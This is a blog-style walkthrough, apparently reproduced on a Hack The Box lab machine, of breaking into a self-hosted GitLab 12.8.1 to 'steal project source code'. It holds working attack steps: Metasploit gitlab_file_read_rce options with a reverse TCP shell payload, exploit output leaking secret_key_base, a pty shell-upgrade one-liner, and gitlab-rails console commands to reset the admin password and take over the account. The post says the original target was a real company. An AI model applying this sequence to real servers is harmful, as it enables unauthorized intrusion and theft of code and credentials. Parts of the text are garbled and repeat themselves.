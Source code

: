 ```yaml
---
layout: default
---
```


### Steal project Source Code in 60 seconds

----------

![title](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/title.jpg)

----------

The journey starts with Company Gitlab CI with open register functional that i got from the rsource company list , Gitlab is self hosted on barametal hosting. The Current version of the gitlab-ce is vulnerable to LFI and RCE exploiting the RCE and getting initial shell in a server , Changing the admin account with github-rails console and login as him on gitlab. Got the private credentials. keys in a project-repo.

For notes used test env as HTB Machine - Laboratory because real env under NDA.

####  Gitlab CI resource

And i can see that Gitlab is hosted. I saw open Register function and Try do it!

----------

![register](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/register.jpg)

----------

Now i registered myself as oleksii and logged in

----------

![login](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/login.jpg)

----------

Didn’t see anything good and juicy then i just go to `https://gitlab.site.io/help`

----------

![version](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/version.jpg)

----------

So its 12.8.1 , so searched a bit about it on google and got so many CVEs. And on rapid7.com site saw info about vulnerabilities, it was disclosed few months ago (Created 12/10/2020) and was about LFI & RCE. The RCE only affects versions 12.4.0 and above when the vulnerable `experimentation_subject_id` cookie was introduced. Tested on GitLab 12.8.1 and 12.4.0.

This picture in Company Gitlab CI says a lot:)

----------

![asap](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/asap.jpg#center)

----------

#### RCE in the gitlab

Now i can that i exploitetion RCE using msfconsole tool `https://www.rapid7.com/db/modules/exploit/multi/http/gitlab_file_read_rce` because exploit was development and added it to exploit list. 

```
msf6 exploit(multi/http/gitlab_file_read_rce) > use exploit/multi/http/gitlab_file_read_rce
msf6 exploit(multi/http/gitlab_file_read_rce) > show options 

Module options (exploit/multi/http/gitlab_file_read_rce):

   Name             Current Setting                                               
   ----             ---------------                                               
   USERNAME         oleksii@test.test                                             
   PASSWORD         oleksii@test.test                                             
   RHOSTS           10.10.10.*                                                         
   RPORT            443                                                           
   SECRETS_PATH     /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml  
   TARGETURI        /users/sign_in                                                
   VHOST            gitlab.site.io                                                

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.*       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

Exploitation RCE vulnerability: 

```
msf6 exploit(multi/http/gitlab_file_read_rce) > exploit 
[-] Handler failed to bind to 10.10.14.*:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Logged in to user oleksii
[*] Created project /oleksii/Dyb4bxA6
[*] Created project /oleksii/L8SKsN52
[*] Created issue /oleksii/Dyb4bxA6/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/root/.msf4/loot/20210102134743_default_10.10.10.*_gitlab.secrets_489388.txt'
[+] Extracted secret_key_base 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
[*] NOTE: Setting the SECRET_KEY_BASE option with the above value will skip this arbitrary file read
[*] Attempting to delete project /oleksii/Dyb4bxA6
[*] Deleted project /oleksii/Dyb4bxA6
[*] Attempting to delete project /oleksii/L8SKsN52
[*] Deleted project /oleksii/L8SKsN52

Servers down wait when ut give up and add first ls -la command rezult ;) Free HTB account, ok.
```

Often during pen tests you may obtain a shell without having tty, yet wish to interact further with the system. Here are some commands which will allow you to spawn a tty shell. Obviously some of this will depend on the system environment and installed packages.

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

#### Resetting admin password

Now since the gitlab is installed i can spawn a gitlab-rails console and reset the admin password , and check who is admin. Resetting admin password offical document link `https://docs.gitlab.com/12.10/ee/security/reset_root_password.html`

Used command from this doc I could reset admin password. Start a Ruby on Rails console with this command:
```
 gitlab-rails console -e production
```
Wait until the console has loaded.

There are multiple ways to find your user. You can search for email or username.
```
  user = User.where(id: 1).first
```

or

Other type get username and email without Gitlab authentification is use api `https://gitlab.site.io/api/v4/users/1`

Now you can change your password:
```
 user.password = 'secret_pass'
 user.password_confirmation = 'secret_pass'
```
It’s important that you change both password and password_confirmation to make it work.

Don’t forget to save the changes.
```
 user.save!
```
Exit the console and try to login with your new password.

#### Login as admin on gitlab

Now can login as admin - dexter : secret_pass and can see all repos with credentials and keys. 

So now see how can steal project Source code in 60 seconds because I think If you repeat all command from this notes then spend no more than 60 second.in 60 seconds bacouse I think If you repeat all command from this notes and spend no more than 60 second. 




 